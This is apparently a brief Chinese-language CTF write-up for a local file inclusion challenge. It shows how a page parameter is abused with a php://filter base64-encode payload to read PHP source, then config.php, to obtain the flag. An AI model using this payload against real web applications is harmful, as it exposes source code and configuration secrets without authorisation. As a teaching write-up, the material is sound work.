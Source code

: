 # LFI
題目提示 `php://filter`  
查看原始碼發現有一個 `?page=pages/flag`  
但直接把檔案印在網頁上只會看到 body 的內容，那麼我們可以把檔案轉成 base64 後查看，使用 `php://filter/read=convert.base64-encode/resource=`
> Q2FuIHlvdSByZWFkIHRoZSBmbGFnPD9waHAgcmVxdWlyZSgnY29uZmlnLnBocCcpOyA/Pj8K

能夠看到一串 base64，拿去 decode 後得到原始碼
> Can you read the flag`<?php require('config.php'); ?>?`

最後對 `config.php` 做相同的事，就能夠拿到 Flag
